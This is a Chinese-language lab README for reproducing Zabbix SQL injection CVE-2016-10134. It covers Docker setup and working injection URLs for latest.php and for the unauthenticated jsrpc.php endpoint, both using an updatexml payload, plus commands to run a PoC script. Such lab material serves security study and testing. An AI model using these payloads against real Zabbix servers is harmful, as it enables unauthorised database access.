



# Zabbix latest.php SQL注入漏洞（CVE-2016-10134）

[English](README.md)

Zabbix是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。

在Zabbix版本2.2.14和3.0.4之前，`latest.php`文件存在SQL注入漏洞。该漏洞允许远程攻击者通过`toggle_ids`数组参数在latest.php中执行任意SQL命令。该漏洞也可以通过jsrpc.php利用，且无需任何用户身份。

参考链接：

- https://support.zabbix.com/browse/ZBX-11023
- https://www.exploit-db.com/exploits/40237
- https://www.exploit-db.com/exploits/40353

## 环境搭建

执行如下命令启动Zabbix 3.0.3:

```
docker compose up -d
```

执行命令后，将启动数据库（MySQL）、Zabbix server、Zabbix agent、Zabbix web。如果内存稍小，可能会存在某个容器挂掉的情况，我们可以通过`docker compose ps`查看容器状态，并通过`docker compose start`来重新启动容器。

## 漏洞复现

访问`http://your-ip:8080`，用账号`guest`（密码为空）登录游客账户。

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：



将这16个字符作为sid的值，访问`http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：



这个漏洞也可以通过jsrpc.php触发，且无需登录：`http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：



## POC验证

调试中，我发现不用用户名和密码也可以在latest.php中进行SQL注入，实现细节见POC。

```shell
python3 CVE-2016-10134.py -t 127.0.0.1:8080

python3 CVE-2016-10134.py --target 127.0.0.1:8080
```
